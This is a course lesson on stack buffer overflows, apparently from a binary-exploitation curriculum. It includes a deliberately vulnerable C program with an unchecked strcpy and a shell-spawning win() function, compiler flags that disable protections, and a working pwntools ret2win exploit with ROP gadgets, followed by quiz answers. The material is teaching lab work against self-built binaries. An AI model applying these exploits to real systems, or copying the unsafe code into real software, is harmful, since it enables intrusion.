

# The Stack and Buffer Overflows

**A buffer overflow writes past a fixed-size space into the memory next to it — and on the stack, that neighbour is the address the program returns to.**

## Before you start
<!-- bite: f96efc9e-8d68-407a-bff3-5b49affc9d80 -->

You should have:

- The memory map, registers and little-endian byte order → [[cybersecurity/11-binary-exploitation/01-process-memory-and-why-it-breaks|process memory]].
- `gcc`, `gdb`+`pwndbg`, and `pwntools` installed (`pip install pwntools`).
- The authorization framing → [[cybersecurity/02-ethical-hacking/01-rules-of-engagement-and-legal|rules of engagement]]; run only against binaries you own.

After this lesson you will be able to:

1. Explain mechanically how a stack overflow reaches the return address.
2. Find the exact offset with a cyclic pattern instead of counting.
3. **Write your first real exploit** (`ret2win`): overflow RIP to call an existing function.
4. Pass an argument to that function with a `pop rdi` gadget.

**Study route.** Kid version and §1–3, then the worked example: a complete `ret2win` exploit you build and run.

## What a stack overflow is
<!-- bite: cb525ecb-010e-41f8-bb5f-98de8a068210 -->

This is the exploit everything else in the section modifies — the one to learn cold. A function reserves scratch space on the stack for its locals, and just past that space sits the **return address**: where the program jumps when the function finishes. If the program copies your input into a local buffer without checking the length, writing too much spills past the buffer and overwrites that return address. When the function returns, it jumps wherever you wrote.

By the end you'll have written a working exploit — `ret2win`, the gentlest real one, where you overflow the return address to reach a function the binary already contains. No shellcode, no bypasses, just control of RIP pointed at existing code. It's the first time "I control execution" stops being abstract.

## The kid version
<!-- bite: e813dd16-3670-4ecd-a4da-d2f5db04ee36 -->

Imagine a form with a box for your name, 64 characters wide, and right after it a line that says "when done, go to desk number ___". The clerk copies your name into the box without checking the length. So you write a 72-character "name" — the last 8 characters run off the end of the name box and overwrite the desk number. When the clerk finishes, they read the desk number *you* wrote and walk there instead.

That's a stack overflow: your over-long input runs past its box into the "where to go next" field, and the program obediently goes where you told it.

**Where the analogy stops working.** A clerk might notice a suspiciously long name. The CPU never does — it copies bytes until the copy function stops (for `strcpy`, at the first zero byte), with no sense that it crossed from "name" into "where to go next". And "go to desk number" isn't a suggestion the program considers; the address is loaded straight into RIP and executed. So there's no judgement to fool — just a length check that wasn't there.

## 1. The stack frame and the vulnerable code
<!-- bite: d22d50fc-31c0-45cc-ba12-bf56504991f8 -->

When `main` calls `greet`, the stack holds the buffer, the saved RBP, and the return address, in that order from low to high:



A write into `buffer` grows toward higher addresses — straight at the saved RBP and the return address.

## 1. The vulnerable code
<!-- bite: 2769559f-6bad-4f5f-936a-7dc0d37333f6 -->

Here's code with exactly that flaw:

```c
// vuln.c
#include <stdio.h>
#include <string.h>
void greet(char *name) {
    char buffer[64];
    strcpy(buffer, name);          // ← NO bounds check. The bug
    printf("Hello, %s\n", buffer);
}
int main(int argc, char **argv) { greet(argv[1]); }
```

**`strcpy` copies until it hits a null byte**, however long. Give it 200 bytes and it writes 200 into a 64-byte buffer. The same flaw lives in `gets`, `sprintf`, `strcat`, and any `memcpy` with an attacker-controlled length. `gets` is so unfixable it was *removed* from the C standard.

## 2. Finding the offset — never count
<!-- bite: a0b845f9-72de-4666-981b-83fc25c3add4 -->

To overwrite the return address precisely you need the distance from the buffer's start to it. **Don't count by hand — use a cyclic pattern** (a De Bruijn sequence where every 4 bytes is unique):

```python
from pwn import *
payload = cyclic(200)              # unique 4-byte windows
# feed it in, let the program crash, read what landed in RIP/RSP, then:
offset = cyclic_find(0x6161616c)   # the 4 bytes that landed in RIP → the exact offset
```

The crash drops a known 4 bytes into RIP; `cyclic_find` says where in your input those bytes were. **That's the offset** — here 72 (64 buffer + 8 saved RBP). You find the crash value in gdb:

```text
pwndbg> run $(python3 -c 'print("A"*200)')     # or cyclic
pwndbg> info registers rip                       # the bytes that overwrote RIP
```

## 3. `ret2win` — your first exploit
<!-- bite: f8d1777d-63ed-4a8e-bf8f-8977e98c4655 -->

The gentlest real exploit: the binary already *contains* a function you want to reach (classically called `win()` or `flag()`), but nothing calls it. You overflow the return address to point at it. Add one to the vulnerable program:

```c
// add to vuln.c, and call greet() from main instead of using argv:
void win() { system("/bin/sh"); }     // the function you want to reach
```

Compile with defences off (so the base case is visible), and find `win`'s address:

```bash
gcc -fno-stack-protector -z execstack -no-pie vuln.c -o vuln   # defences OFF, for learning
objdump -d vuln | grep '<win>:'          # e.g. 0000000000401162 <win>
```

## 3. `ret2win`: the exploit script
<!-- bite: b86ec102-bdec-460e-83e8-fc973b064602 -->

Build it with pwntools. Develop against a local `process()` so going remote is one line later:

```python
# exploit.py
from pwn import *
elf = context.binary = ELF("./vuln")
p = process("./vuln")

offset = 72                               # from cyclic, above
win    = elf.symbols["win"]               # pwntools reads the symbol for you

payload  = b"A" * offset                  # fill the buffer + saved RBP
payload += p64(win)                       # overwrite the return address with win()
p.sendline(payload)
p.interactive()                           # drop into the shell win() popped
```

**Predict first:** run it and it may *crash inside* `win` instead of giving a shell, on a modern system. What's the likely cause — and what's the one-line fix?

## 3. `ret2win`: the alignment gotcha
<!-- bite: 159c3260-59fc-484e-84d5-0d93c6f4b78f -->

The likely cause is **stack alignment**. x86-64 requires the stack to be 16-byte aligned when a function like `system` executes certain SSE instructions (`movaps`); your overflow can leave it misaligned by 8, and `system` crashes with `SIGSEGV` inside libc. The fix is one extra `ret` gadget before `win`, which nudges the stack back into alignment:

```python
rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]         # a bare `ret` gadget
payload  = b"A" * offset
payload += p64(ret)                       # 8-byte alignment nudge
payload += p64(win)
```

With that, `p.interactive()` gives you a shell. **This is the first exploit you write yourself** — no shellcode, no bypasses, just control of RIP pointed at existing code. ROP Emporium's first challenge is exactly this → [[cybersecurity/11-binary-exploitation/07-the-toolkit-and-practice|practice]].

## 4. Passing an argument — the seed of ROP
<!-- bite: b9721b76-bbbc-46ac-81a3-45cf99e56846 -->

`ret2win` gets harder when the target needs an argument — say `win(0xdeadbeef)`. On x86-64 the first argument goes in `RDI`, and you can't set a register just by overflowing the stack. **You need a gadget** — a tiny snippet ending in `ret` that does `pop rdi`:

```python
payload  = b"A" * offset
payload += p64(pop_rdi_gadget)     # pop rdi; ret  — found with ROPgadget or pwntools' ROP
payload += p64(0xdeadbeef)         # this value is popped into RDI
payload += p64(win)                # then return into win, now with RDI set
```

When the overflowed `ret` runs, it jumps to `pop rdi; ret`, which pops `0xdeadbeef` off the stack into RDI, then its own `ret` jumps into `win`. You just drove execution through *two* addresses you laid on the stack — **that's the seed of ROP**, the whole modern game → [[cybersecurity/11-binary-exploitation/05-bypassing-mitigations|ROP]].

## Terms used in this lesson
<!-- bite: e260a3c6-c1b6-4f51-9ff5-da49a2cbe4f6 -->

1. **Buffer overflow**: This is writing more data into a fixed-size buffer than it holds, so the excess overwrites adjacent memory — on the stack, the saved return address.
2. **Return address**: This is the saved address a function jumps back to when it returns; overwriting it on the stack redirects execution.
3. **Offset**: This is the exact number of bytes from the start of your input buffer to the return address — found with a cyclic pattern, never counted by hand.
4. **Cyclic pattern**: This is a De Bruijn sequence where every 4-byte window is unique, so the bytes that land in RIP after a crash reveal exactly where in your input the return address was.

## Terms used in this lesson: the exploit
<!-- bite: 89bddfe8-ad0a-4ec0-8f32-073b9f7e7f9f -->

5. **ret2win**: This is the simplest real exploit — overflow the return address to jump to a function the binary already contains ("win"/"flag"), with no shellcode.
6. **Gadget**: This is a short instruction sequence ending in `ret` (like `pop rdi; ret`) that you reuse to set a register or perform one small step.
7. **Stack alignment**: This is x86-64's requirement that the stack be 16-byte aligned for certain instructions; a misaligned call into libc crashes, fixed by an extra `ret` gadget.
8. **pop rdi; ret**: This is the gadget that loads the next stack value into RDI (the first argument register) before returning — how you pass an argument to the function you call.

## Common pitfalls and traps
<!-- bite: 77e44e40-8c9d-47e5-a6a1-35edac4be15e -->

1. **Counting the offset by hand.** Error-prone. Use `cyclic` / `cyclic_find` every time.
2. **The alignment crash.** A `ret2libc`/`ret2win` that segfaults *inside* the target usually needs one extra `ret` gadget for 16-byte alignment.
3. **A null byte in the middle of your payload.** `strcpy` stops at the first `\x00`, truncating everything after. Addresses with a null byte need care (or a different copy path).
4. **Testing with defences on.** This base case needs `-fno-stack-protector -z execstack -no-pie` and ASLR off; with them on, you need the later techniques.
5. **Hard-coding addresses that move.** Fine here (No-PIE, ASLR off); with PIE/ASLR you must leak a base first ([[cybersecurity/11-binary-exploitation/05-bypassing-mitigations|lesson 05]]).

## Check your understanding
<!-- bite: 46b65ab7-61a1-41ab-b571-f6332284c45d -->

Try each one before you open the answer.

1. <!-- q: mcq id="ccfd5c49" -->
   On the stack, *why* does overflowing a local buffer let you control where the program goes next?

   - [ ] The buffer is executable.
   - [x] The function's saved return address sits just past the buffer on the same stack, so a long-enough write overwrites it — and it's loaded into RIP when the function returns.
   - [ ] Overflowing a buffer deletes the function.
   - [ ] The heap is adjacent to the buffer.

   <details><summary>Answer</summary>

   A function's local buffer and its saved return address live on the same stack, with the return address just past the buffer. Writing past the buffer's end (toward higher addresses) reaches and overwrites the return address; when the function executes `ret`, that value is loaded into RIP and the CPU jumps there. No length check, no wall — just adjacency.

   </details>

2. <!-- q: mcq id="8c9379be" -->
   Why use a cyclic (De Bruijn) pattern to find the offset instead of counting bytes?

   - [ ] It makes the exploit run faster.
   - [x] Every 4-byte window is unique, so whatever lands in RIP after the crash tells you exactly where in your input the return address was — no manual counting or guessing.
   - [ ] It avoids null bytes.
   - [ ] It's required by the compiler.

   <details><summary>Answer</summary>

   `cyclic(200)` produces a sequence where each 4-byte chunk appears once. After the crash, the bytes sitting in RIP (say `0x6161616c`) are looked up with `cyclic_find`, which returns their position in your input — that position *is* the offset to the return address. Counting by hand (buffer size + saved RBP + any padding) is error-prone; the pattern is exact.

   </details>

3. <!-- q: exact id="49b739a6" answer="72" -->
   A vulnerable function has `char buffer[64]` and the standard 8-byte saved RBP between it and the return address, with no extra padding. What offset (in bytes) overwrites the return address?

   <details><summary>Answer</summary>

   72 (64 for the buffer + 8 for the saved RBP). So a payload of `b"A"*72 + p64(target)` places `target` exactly on the return address. In practice you'd confirm this with a cyclic pattern rather than assume it, because compilers sometimes add alignment padding — but for this layout it's 64 + 8 = 72.

   </details>

4. <!-- q: mcq id="538e3995" -->
   In a `ret2win` exploit, what are you making the program do?

   - [ ] Injecting and running your own shellcode on the stack.
   - [x] Overflowing the return address to jump to a function the binary already contains (like `win()`), using no shellcode at all.
   - [ ] Overwriting the heap allocator's metadata.
   - [ ] Leaking a libc address.

   <details><summary>Answer</summary>

   `ret2win` reuses existing code: the binary has a function you want to reach (often literally `win()` or `flag()`) that nothing calls, and you overwrite the return address with its address so `ret` jumps there. It's the gentlest real exploit — pure RIP control, no shellcode, no bypasses — which is why it's the first one to write.

   </details>

5. <!-- q: mcq id="b93094e1" -->
   Your `ret2win` overwrites RIP with `win()` correctly, but the program crashes *inside* `win` (in libc's `system`) rather than giving a shell. What's the usual cause and fix?

   - [ ] The offset is wrong; recount it.
   - [x] Stack misalignment — x86-64 needs a 16-byte-aligned stack for some instructions; add one extra `ret` gadget before `win` to realign it.
   - [ ] `win()` doesn't exist.
   - [ ] ASLR moved `win`.

   <details><summary>Answer</summary>

   A `movaps` instruction in libc requires the stack to be 16-byte aligned; your overflow can leave it off by 8, causing a `SIGSEGV` inside `system`. Inserting a bare `ret` gadget before the call (`p64(ret) + p64(win)`) nudges the stack back into alignment. It's a classic "my exploit is right but it still crashes" gotcha.

   </details>

6. <!-- q: open id="8b0581e3" -->
   Passing an argument in `ret2win` (e.g. `win(0xdeadbeef)`) requires a `pop rdi; ret` gadget. Explain step by step what happens when the overflowed function returns into that gadget, and why this is called "the seed of ROP".

   <details><summary>Answer</summary>

   When the vulnerable function executes `ret`, it pops the first address off your payload — the address of the `pop rdi; ret` gadget — into RIP and jumps there. The `pop rdi` instruction then pops the *next* 8 bytes off the stack (which you set to `0xdeadbeef`) into the RDI register, which is where the x86-64 calling convention expects the first function argument. Then the gadget's own `ret` pops the *next* address off the stack — the address of `win` — into RIP and jumps into `win`, which now sees `0xdeadbeef` in RDI as its argument. So your payload is `padding + pop_rdi_gadget + 0xdeadbeef + win`, and execution flows through three stack values you laid out. This is "the seed of ROP" because you've already done the core ROP move: you drove execution through a chain of addresses on the stack, each `ret` advancing to the next, using small existing gadgets to set up state before the real call. Full ROP is just more of this — chaining many gadgets to set several registers, write memory, or make syscalls — which is exactly how modern exploitation works once NX forbids injecting your own code.

   </details>

## Practice — write the ret2win exploit
<!-- bite: dd5aa067-717b-496a-8512-a18b235c847e -->

**Task.** Build and land your first exploit on a binary you compile.

1. Write `vuln.c` with the overflowable `greet()` and a `win()` that pops a shell (code above). Compile with `-fno-stack-protector -z execstack -no-pie`, ASLR off for now.
2. Find the offset with a cyclic pattern in gdb (confirm it's 72).
3. Write `exploit.py` with pwntools against `process("./vuln")`, overwrite RIP with `win` (plus a `ret` alignment gadget), and get a shell with `p.interactive()`.
4. Then make `win` take an argument and reach it with a `pop rdi; ret` gadget.

## Practice: when it's done
<!-- bite: 588292db-ac03-4127-85cc-54e78343b1a0 -->

Here's how you know the task is finished.

**Done when:** `python3 exploit.py` drops you into a shell on your own binary, you can explain why the offset is what it is, and you've handled the alignment crash. Then repeat it on ROP Emporium's `ret2win` challenge. Record both in `cybersecurity/LIVE-RUNS-TODO.md`. The milestone is seeing RIP full of your bytes and then a `$` prompt — that's control of execution, concretely.

## Before moving on
<!-- bite: 9e81b1d4-06cd-4a48-b2af-f0cc6646b251 -->

You can now explain how a stack overflow reaches the return address, find the offset with a cyclic pattern, write a `ret2win` exploit, and pass an argument with a `pop rdi` gadget.

**Recap for later lookup:** a stack overflow works because the return address is on the same stack as your input and unsafe copies (`strcpy`/`gets`) don't check length. Find the offset with `cyclic`/`cyclic_find`, never counting (here 64+8=72). `ret2win` = overwrite RIP with an existing function's address, no shellcode. Watch for the stack-alignment crash (add a `ret` gadget). Pass arguments with `pop rdi; ret` — which is the seed of ROP. Develop against `process()` so remote is one line.

Next: [[cybersecurity/11-binary-exploitation/03-shellcode|shellcode]] — the code you jump to when there's no `win()` already there, and the strange rules it's written under.

## Related
<!-- bite: dcaa2e82-ce3a-4c37-9baa-6231f418d5ac -->

- [[cybersecurity/11-binary-exploitation/03-shellcode|Shellcode]] — the code you jump to.
- [[cybersecurity/11-binary-exploitation/04-modern-mitigations|Modern mitigations]] — why the simple version stopped working.
- [[cybersecurity/11-binary-exploitation/07-the-toolkit-and-practice|The toolkit]] — gdb, pwntools, and where to practise.

## About this lesson
<!-- bite: 5149c761-a102-4c6f-8deb-14f98538d4d9 -->

**Level:** Intermediate. **Covers:** the stack frame, the vulnerable copy functions, finding the offset with a cyclic pattern, the `ret2win` exploit (with the stack-alignment gotcha), and passing an argument with a `pop rdi` gadget — the seed of ROP — with a complete hands-on exploit you build. **Where it sits:** lesson 2 of the [[cybersecurity/11-binary-exploitation/index|Binary Exploitation]] section — the base case everything builds on. **Sources:** the original vault note (reference), rebuilt to the [[COURSE-STANDARD|course standard]] with a runnable `ret2win` lab; lab/CTF material, run against binaries you own — tracked in `cybersecurity/LIVE-RUNS-TODO.md`.
